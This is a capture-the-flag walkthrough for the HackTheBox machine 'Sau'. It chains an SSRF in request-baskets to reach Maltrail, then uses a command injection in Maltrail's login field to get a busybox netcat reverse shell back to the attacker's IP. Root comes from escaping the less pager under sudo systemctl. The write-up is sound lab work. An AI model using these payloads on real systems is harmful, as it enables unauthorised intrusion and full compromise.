 We add the machine to /etc/hosts:
	
	sudo su
	echo "10.10.11.224	sau.htb" >> /etc/hosts

We start the machine with a classical nmap scan (i started rustscan but didn't find much):
	
	nmap -p- sau.htb
output:
	
	PORT	STATE
	22 		open
	80		filtered
	8338	filtered
	55555	open
the two filtered ports are weired but for now we can't access them, better to continue enumerate...
we can visit the site on port 55555
we found a web service that permit us to create web basket.
The web site is hosted by this service:
	
	Powered by request-baskets | Version: 1.2.1
we can find an exploit online for this version;
in fact this site has already had a SSRF vulnerability when we create a basket.
The site permit us to choose the url to see when we visit the basket; we can set this whit a similar
request:
	
	POST /api/baskets/new_basket
	{	
		"forward_url":"http://127.0.0.1:8338/",
		"proxy_response":true,
		"insecure_tls":false,
		"expand_path":true,
		"capacity":200
	}
now we've created a basket that redirect us to the port that we couldn't see before.
When we visit the site we are redirected to a strange html page of "maltrail";
i didn't know this service so i googled it.
"Maltrail is an open-source network threat detection system that analyzes abnormal traffic and identifies potential cyber attacks." CHAT-GPT

so i searched for some exploit for this service and found this:
	
	https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
the poc is simple:
	
	curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
we can pass commands in the username field because the paramether is checked with
a subprocess.check_output().

we can modify the payload as follow to adapt it to our basket and settings:
	
	curl http://sau.htb:55555/new_basket/login --data 'username=;`busybox nc 10.10.14.239 4444 -e bash`'
the command execution was limited to some commands in fact only busybox netcat worked for me (maybe sth else will work)
to recive the revshell we need to start a listener (i use pwncat):
	
	python3 -m pwncat -lp 4444
WE ARE IN AS USER!
we submit the userflag and keepgoing.
we need to keep on with the enumeration and privesc(is actually pretty ez):
	
	sudo -l
output:
	
	(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
we can run the command as admin so i tried to search for systemctl exploit and i found this:
	
	https://gtfobins.github.io/gtfobins/systemctl/
the exploit is pretty simple and i leverage the fact that the systemctl is opened with less,
so we can use a classical less privesc (the script is runned as root with no password):
	
	sudo /usr/bin/systemctl status trail.service
(inside the interactive less prompt we need to write):
	
	!bash
WE ARE NOW ROOT!!
